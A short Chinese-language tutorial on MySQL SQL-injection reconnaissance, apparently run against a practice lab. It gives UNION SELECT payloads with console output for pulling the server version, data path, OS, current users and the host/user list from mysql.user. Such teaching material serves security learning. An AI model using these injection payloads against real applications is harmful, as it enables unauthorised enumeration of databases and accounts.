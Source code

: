 # 0x00 版本收集与路径

识别数据库版本有助于我们进一步对数据库进行注入我们可以用到 `version()` `@@version` `/*!版本号*/` 

`/*!*/` 意为在xxx版本之上执行 我的版本是5.6所以可以执行

```
mysql> SELECT * FROM admin WHERE id = 1 union select 1,version(),3;
+------+----------+----------+
| id   | username | password |
+------+----------+----------+
|    1 | admin    | admin    |
|    1 | 5.6.30-1 | 3        |
+------+----------+----------+
2 rows in set (0.00 sec)

mysql> SELECT * FROM admin WHERE id = 1 union select 1,@@version,3;
+------+----------+----------+
| id   | username | password |
+------+----------+----------+
|    1 | admin    | admin    |
|    1 | 5.6.30-1 | 3        |
+------+----------+----------+
2 rows in set (0.01 sec)

mysql> SELECT * FROM admin WHERE id = 1 union select 1,/*!40000 user()*/,3;
+------+----------------+----------+
| id   | username       | password |
+------+----------------+----------+
|    1 | admin          | admin    |
|    1 | root@localhost | 3        |
+------+----------------+----------+
2 rows in set (0.00 sec)

```

路径的话一般用`@@datadir`就可以了然后大概反猜下网站路径 操作系统 `@@version_compile_os`

# 0x01 用户,链接信息


`system_user() ` //系统用户名
`user() `  // 用户名
`current_user()`  //当前用户名
`session_user()` //链接数据库的用户名


```
mysql> select * from users where id =1 union select system_user(),session_user(),current_user();
+--------------------+--------------------+----------+
| id                 | username           | password |
+--------------------+--------------------+----------+
| 1                  | Dumb               | Dumb     |
| root@192.168.1.101 | root@192.168.1.101 | root@%   |
+--------------------+--------------------+----------+
2 rows in set (0.00 sec)

```

读取host与user

```
mysql> select * from users where id =1 union select 1,host,user from mysql.user;
+----+-----------+----------+
| id | username  | password |
+----+-----------+----------+
|  1 | Dumb      | Dumb     |
|  1 | %         | root     |
|  1 | 127.0.0.1 | root     |
|  1 | ::1       | root     |
|  1 | localhost | root     |
+----+-----------+----------+
5 rows in set (0.00 sec)

```


# 0x02 文末

通过以上信息还能大概判断下是不是战库分离之类的

#### 本文如有错误，请及时提醒，避免误导他人

* author：404